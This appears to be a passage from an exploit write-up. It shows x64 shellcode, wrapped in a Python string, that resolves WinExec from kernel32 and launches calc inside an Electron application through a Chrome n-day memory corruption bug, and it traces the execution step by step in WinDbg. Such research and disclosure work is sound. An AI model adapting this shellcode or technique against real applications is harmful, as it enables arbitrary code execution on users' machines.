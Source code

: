 
The rest of the shellcode is to push the arguments of winexec (calc and 1)
```python
sc = '''int3
	mov r15, [rsp+0x38]
	push 0x5D7F236
	pop r14
	add r15, r14
        mov r13, [r15]   
	push 0x57D70
	pop r12
        add r13, r12
	push 0x0
	pop rcx
	push 0x636C6163
	pop rdx
	shl rcx, 0x20
	add rcx, rdx
	xor rdx, rdx
	push rcx
	mov rcx, rsp
	inc rdx
        call r13
'''
```

## Shellcode execution

This doesn't include a sandbox escape, it is common for electron application to run with --no-sandbox.

We can verify through windbg the execution of our code.

![image](https://github.com/user-attachments/assets/c0b0d31e-2c89-42c9-bba9-382579e8d6ea)

Running the poc we see the breakpoint as our first instruction and the next instruction matches our shellcode

![image](https://github.com/user-attachments/assets/672c5b7b-9d9b-49d4-9ffa-0afac98e8d83)

Stepping into the following instructions the blanks are filled with nops and the reference to kernel32 is obtained.

![image](https://github.com/user-attachments/assets/52358c47-9cc6-4cf1-8540-8cc5d52b91f2)

The arguments for WinExec are pushed onto the stack, then WinExec address is called

![image](https://github.com/user-attachments/assets/fa5fe492-ad02-494d-95c3-506a7d17b68c)

We have successfully executed shellcode in an electron application using a chrome n-day memory corruption.

![image](https://github.com/user-attachments/assets/5ca9af92-a42b-4345-a66b-8afcaf02da3d)
